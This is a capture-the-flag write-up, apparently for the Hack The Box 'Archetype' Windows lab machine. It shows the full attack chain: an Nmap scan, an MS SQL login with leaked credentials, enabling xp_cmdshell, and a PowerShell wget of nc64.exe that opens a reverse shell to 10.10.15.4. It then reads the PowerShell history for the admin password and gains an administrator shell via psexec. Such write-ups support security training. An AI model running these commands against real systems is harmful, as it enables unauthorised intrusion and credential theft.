 # [OK] - Archetype

| Difficult: | Easy |
| --- | --- |
| OS: | Windows |
| Last edit: | 25/06/22 |

## **Enumeration:**

The first task was collect information from the target. So, we execute the Nmap to collect the ports and services running in the target.

```bash
**rmba@rmba:~/Downloads$** nmap -sV -sC 10.129.206.174 -T5
Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-25 23:10 -03
Warning: 10.129.206.174 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.206.174
Host is up (0.22s latency).
Not shown: 984 closed ports
PORT      STATE    SERVICE      VERSION
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
808/tcp   filtered ccproxy-http
1022/tcp  filtered exp2
1053/tcp  filtered remote-as
1075/tcp  filtered rdrmshc
1334/tcp  filtered writesrv
1433/tcp  open     ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-06-25T23:53:57
|_Not valid after:  2052-06-25T23:53:57
|_ssl-date: 2022-06-26T02:10:39+00:00; 0s from scanner time.
2920/tcp  filtered roboeda
3551/tcp  filtered apcupsd
4446/tcp  filtered n1-fwp
5087/tcp  filtered biotic
7402/tcp  filtered rtps-dd-mt
10621/tcp filtered unknown
49156/tcp filtered unknown
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-06-26T02:10:36
|_  start_date: N/A
```

### Impacket

Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object-oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.

[https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

```bash
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
```

Successfully authenticated to the Microsoft SQL Server using the Impacket

```bash
python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.64.227 -windows-auth

Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```

Now here we have a MySql SQL-CLI. We can use this CLI to enable external commands CMD on the operational system. So, i search in google the qery “**How to use the xp_cmdshell extended procedure” .**

[How to use the xp_cmdshell extended procedure](https://www.sqlshack.com/use-xp-cmdshell-extended-procedure/)

```sql
# Verify if advanced options in SQL Server are enabled
USE master;  
GO  
EXEC sp_configure 'show advanced option'
#---------------------------------------------------------------------------

# Enable the Advanced Options, set the advanced option to 1
USE master;  
GO  
EXEC sp_configure 'show advanced option', '1';  
RECONFIGURE WITH OVERRIDE;
#---------------------------------------------------------------------------

# Xp_cmdshell is one of the advanced options, now you can enable this extended procedure
EXEC sp_configure 'xp_cmdshell', 1;  
GO  
RECONFIGURE;
#---------------------------------------------------------------------------

# Xp_cmdshell is one of the advanced options, now you can enable this extended procedure
EXEC sp_configure 'xp_cmdshell', 1;  
GO  
RECONFIGURE;
#---------------------------------------------------------------------------

# Testing
xp_cmdshell "whoami"
xp_cmdshell "powershell -c pwd"
#---------------------------------------------------------------------------
```

At this point we already have a shell and we can execute commands. But we will have a reverse shell for more flexibility. We will download the Netcat tool to Windows to get a shell.

[nc.exe/nc64.exe at master · int0x33/nc.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------)

After download the file, we will use a python web-server HTTP to serve the file to target. 

```powershell
sudo python3 -m http.server 80
```

To revice the reverse shell connection. we will open a 443 port as listen: 

```powershell
sudo nc -lvnp 443
```

We already to put the file inside target and execute them. using the commands:

```sql
# Put file inside target
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.15.4/nc64.exe -outfile nc64.exe"

# Execute nc64.exe
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.15.4 443"
```

We have the victim's shell

![Untitled](pics/Untitled.png)

## Privilege Escalation

For privilege escalation, we are going to use a tool called **winPEAS** , which can automate a big part of the enumeration process in the target system.

Serve **winPEAS** file using python http.server:

Get file on target using curl:

```powershell
sudo python3 -m http.server 80
```

```powershell
curl http://10.10.15.4/winPEASx64.exe --output winPEASx64.exe
```

From the output we can observer that we have **SeImpersonatePrivilege.** We can first check the two existing files where credentials could be possible to be found.

As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. To do that, we will read the PowerShell history file, which is the equivalent of .bash_history for Linux systems. The file ConsoleHost_history.txt can be located in the directory C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\.

```powershell

> type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt                                                             

Output: net.exe use T: \\Archetype\backups **/user:administrator MEGACORP_4dm1n!!**                      
```

We can now use the tool [psexec.py](http://psexec.py/) again from the Impacket suite to get a shell as the administrator:

```powershell
python3 psexec.py administrator@10.129.64.227
```

Get User and Root Flag:

```powershell
# Flag User
type C:/Users/sql_svc/Desktop/user.txt

# Flag Root
type C:/Users/Administrator/Desktop/root.txt
```

End!

by: rmba